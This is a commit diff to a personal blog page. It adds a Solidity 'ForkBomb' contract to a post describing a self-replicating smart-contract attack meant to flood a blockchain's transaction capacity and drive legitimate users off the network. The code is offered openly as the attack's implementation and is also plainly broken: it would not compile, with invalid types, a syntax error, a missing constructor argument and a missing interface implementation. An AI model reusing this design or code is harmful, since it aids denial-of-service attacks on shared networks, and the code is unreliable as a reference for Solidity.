

Before and after one commit to frankgiddens/mygithubpage, a plain HTML site: page blog/122221.html in a window 1280 px wide. Shown: the part 195-882 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Added blockchain fork bom example code

```diff
--- a/blog/122221.html
+++ b/blog/122221.html
@@ -33,6 +33,37 @@
 							<hr/>
 							<div class="card-body">
 								<p>In Solidity (the programming language of smart contracts) it is possible to create and deploy smart contracts programmatically and to make transaction calls between the new and old version, therefore if a model was created to mimic a fork bomb, in which a contract would create copies of itself, pass along it's internal gas fee paying cryptocurrency to it's children along with the attackers wallet address, and call the same function in it's children to repeat the process. This would be connected to a web3 application that would reabsorb the currency of any stalled contracts and redeploy the original contract in a new address. This should lead to the maximum number of transactions of the network being used by the deployed smart contracts, thus preventing legitimate smart contracts from operating. Repeat for a long enough period of time and legitimate smart contact users will redeploy to another network, at which time an attacker can stop the attack and allow the network to languish from lack of users. I am interested in if anyone knows there to be any way to prevent this sort of attack, but it certainly seems significantly cheaper than a 51% attack.</p>
+								<code>
+									// SPDX-License-Identifier: MIT
+									pragma solidity ^0.8.0;
+
+									import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
+
+									contract ForkBomb is IERC20{
+										address admin;
+										address token;
+										uint256 counter;
+										mapping(uint256=>ForkBomb) babyBombs;
+										ForkBomb childA;
+										ForkBomb childB;
+										function reproduce() internal {
+											for(uint256 i = 0; i < 32; i++){
+												babyBombs[i] = new ForkBomb();
+											}
+											for(uint256 i = 0; i < 32; i++){
+												IERC20(token).transfer(address(babyBombs[i]), IERC20(token).balanceOf(address(this)) * 0.03);
+												babyBombs[i].call(abi.encodeWithSignature("reproduce()"););
+											}
+										}
+										constructor(address memory _admin, address memory _token){
+											admin = _admin;
+											counter = 0;
+											token = _token;
+											reproduce();
+										}
+									}
+								</code>
+								<p>Code for educational purposes only.</p>
 							</div>
 						</div>
 					</div>
```
